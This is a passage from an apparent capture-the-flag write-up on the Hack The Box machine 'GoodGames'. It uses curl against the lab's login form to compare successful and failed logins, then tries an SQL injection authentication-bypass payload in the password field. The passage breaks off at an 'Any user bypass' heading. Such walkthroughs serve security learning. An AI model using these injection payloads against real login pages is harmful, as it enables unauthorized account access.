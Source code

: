 ![](img/2022-06-04-15-19-28.png)

So the change password form is not useful. Let's focus then on trying to log in as an admin user:

#### SQLi
On the login section we can see two fields: `email` and `password`. We can try to login with the credentials as `revan`:
```bash
# Logged in
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com&password=1234" -s | grep title
    <title>GoodGames | Login Success</title>
# Failure
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com&password=123" -s | grep title
    <title>GoodGames | 500</title>
```
We can see the differences between successfull and unsuccessful login. Let's try some SQLi:
```bash
# Password bypass
❯ curl -X POST "http://goodgames.htb/login" -d "email=revan@korriban.com&password=123' or 1=1 -- -" -s | grep title
    <title>GoodGames | 500</title>
# Any user bypass
```